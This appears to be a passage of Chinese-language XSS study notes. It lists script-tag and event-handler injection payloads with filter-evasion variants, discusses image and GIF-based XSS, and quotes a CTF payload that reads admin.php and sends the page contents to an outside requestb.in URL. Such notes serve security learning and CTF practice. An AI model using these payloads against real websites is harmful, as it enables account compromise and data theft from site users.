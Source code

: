 ```html
	<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>//<script>alert(1)</script>
script标签：
	<script>alert('xss')</script>
	<script>alert("xss")</script>
	<script>alert(/xss/)</script> //双引号换成斜杠
	<script>alert("xss");</script> //用分号
	<script>alert('xss');</script>
	<script>alert(/xss/);</script>
	<script>alert("xss");;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;</script> //用分号
	<script>alert("xss");;;;;;;;;;;;;;;;; ;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;</script> //空格+分号
	<script>alert('aaaaaa');;;;\n;;;;</script>//换行符
	<script>alert('aaaaaa');;;;\r;;;;</script>//回车
select
	<select onfocus=javascript:alert(1) autofocus>
svg
	<svg onload=alert(1)>
textarea
	<textarea onfocus=javascript:alert(1) autofocus>
var
	<var onmouseover="prompt(1)">M</var>
video
	<video><source onerror="alert(1)"> 
	<video src=x onerror=alert(48)>
```
以上只列取了部分标签。总的来说对于xss出现的地方有几点：
1. 单个属性值或多个属性值组合(isindex)，如href、src、action
2. 事件属性：Window 事件属性、Form 事件、Keyboard 事件、Mouse 事件、Media 事件

基本为以上两点

## 关于图片等媒体流方面的XSS
有img、gif、svg以及jpg。

### img、gif
用脚本生成img、gif的文件，如果是直接127.0.0.1进行访问，则如果图片文件结尾是gif或者img结尾那么就会收到
![](/images/19-4-19_XSS学习_攻击手段_图片_1.png)这样的警告。如果改成gf则可以成功`alert(1)`。

**CTF**
[DEFCAMP CTF Quals 2017](https://steemit.com/ctf/@maniffin/defcamp-ctf-quals-2017-llc-webchall-writeup) WebChall
payload:
```javascript
GIF89a= 'MUMBOJUMBOBOGUSBACON';var xh = new XMLHttpRequest();xh.open("GET", "admin.php", false);xh.send();document.location="https://requestb.in/um61ebum?foo="+btoa(xh.responseText);
```
